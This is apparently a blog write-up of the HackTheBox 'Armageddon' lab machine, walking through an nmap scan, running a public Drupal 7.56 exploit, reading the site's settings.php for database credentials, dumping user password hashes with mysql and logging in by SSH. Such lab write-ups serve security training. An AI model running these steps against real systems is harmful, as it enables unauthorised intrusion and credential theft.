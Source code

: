 ```yaml
---
title: Armageddon - Writeup
author: Elman Alizadeh
date: 2021-04-27 14:10:00 +0800
categories: [ctf, HackTheBox]
tags: [hackthebox, htb, armageddon]
---
```


![Desktop View]({{ "/assets/img/htb-armageddon/1.png" | relative_url }})

## Nmap 

Let’s scan for open ports with Nmap

 Command: nmap -A 10.10.10.233

![Desktop View]({{ "/assets/img/htb-armageddon/2.png" | relative_url }})

We see open ports here:

22/tcp-SSH port

80/tcp-HTTP port

## Web Enum

Lets check the http site on port 80:

If we look at the place where ‘CHANGELOG.txt’ is written in port 80, we will learn the version of Drupal.

![Desktop View]({{ "/assets/img/htb-armageddon/3.jpeg" | relative_url }})

## Searchsploit

Now let’s find exploit for Drupal 7.56

 Command: searchspolit Drupal 7.56

![Desktop View]({{ "/assets/img/htb-armageddon/4.png" | relative_url }})



Let’s infiltrate the system now

 Command: ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb 10.10.10.233

![Desktop View]({{ "/assets/img/htb-armageddon/5.png" | relative_url }})



Let’s look inside

 Command: ls

![Desktop View]({{ "/assets/img/htb-armageddon/6.png" | relative_url }})

Now let’s look at all the files

 Command: find

![Desktop View]({{ "/assets/img/htb-armageddon/7.png" | relative_url }})

Now let’s check all the files and the file you see contains some information we need.

![Desktop View]({{ "/assets/img/htb-armageddon/8.png" | relative_url }})

Let’s check the file

 Command: cat /sites/default/settings.php

![Desktop View]({{ "/assets/img/htb-armageddon/9.jpeg" | relative_url }})

## Mysql

Let’s explore the tables in the database!

 Command: mysql -u ****** -p************** -D drupal -e ‘show tables;’

![Desktop View]({{ "/assets/img/htb-armageddon/10.jpeg" | relative_url }})

When we look at the whole list, we see a list of ‘users’ with possible names and passwords.

Lets check the users list!

 Command: mysql -u ********* -p****************** -D drupal -e ‘select * from users;’

![Desktop View]({{ "/assets/img/htb-armageddon/11.jpeg" | relative_url }})

We get 2 users and password hashes one of which is an admin!

You can crack this password with the ‘john’ tool.

![Desktop View]({{ "/assets/img/htb-armageddon/9.png" | relative_url }})

## Ssh

Now let’s connect to ssh-a with the information we have.

Command : ssh username@10.10.10.233

![Desktop View]({{ "/assets/img/htb-armageddon/10.png" | relative_url }})

## User.txt

Checking the file system we have user.txt our first flag!

![Desktop View]({{ "/assets/img/htb-armageddon/12.jpeg" | relative_url }})













